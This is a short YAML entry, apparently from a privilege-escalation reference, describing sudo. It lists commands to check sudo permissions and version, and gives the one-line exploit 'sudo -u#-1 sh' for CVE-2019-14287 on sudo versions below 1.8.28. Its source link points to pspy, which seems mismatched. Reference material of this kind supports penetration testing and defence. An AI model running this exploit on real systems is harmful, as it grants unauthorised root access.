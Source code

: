 ```yaml
---
description: |
  sudo allows a permitted user to execute a command as the superuser or another user, as specified by the security policy. <br><br>
  source: https://github.com/DominicBreuker/pspy
functions:
  privesc:
    - description: Check current user's sudo permissions, and sudo version
      code: |
       sudo -l
       sudo -V
    - description: Exploit CVE-2019-14287 (Sudo version < 1.8.28)
      code: |
       sudo -u#-1 sh
---
```

